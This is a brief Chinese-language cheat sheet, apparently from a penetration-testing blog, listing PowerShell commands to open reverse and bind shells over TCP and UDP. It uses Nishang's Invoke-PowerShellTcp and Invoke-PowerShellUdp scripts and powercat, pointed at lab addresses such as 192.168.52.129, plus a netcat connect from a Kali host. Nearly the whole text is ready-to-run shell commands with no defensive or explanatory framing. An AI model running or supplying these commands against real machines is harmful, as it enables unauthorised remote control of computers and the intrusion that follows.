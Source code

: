 主要介绍几种常用的, http/dns/imcp这些大家百度  不太想说太复杂了。。。。
`TCP Reverse`

    PS F:\Shells> . .\Invoke-PowerShellTcp.ps1
    PS F:\Shells> Invoke-PowerShellTcp -Reverse -IPAddress 192.168.52.129 -Port 4444
`TCP Bind`

        PS F:\Shells> . .\Invoke-PowerShellTcp.ps1
        PS F:\Shells> Invoke-PowerShellTcp -Bind -Port 8888
        PS F:\Shells> . .\powercat.ps1
        PS F:\Shells> powercat -c 192.168.52.1 -v -p 8888
`UDP Reverse`
        
        PS F:\Shells> . .\Invoke-PowerShellUdp.ps1
        PS F:\Shells> Invoke-PowerShellUdp -Reverse -IPAddress 192.168.52.129 -Port 53
`UDP Bind`

        PS F:\Shells> . .\Invoke-PowerShellUdp.ps1
        PS F:\Shells> Invoke-PowerShellUdp -Bind -Port 7777
        
        root@kali:~# nc -vtu 目标IP 7777
        
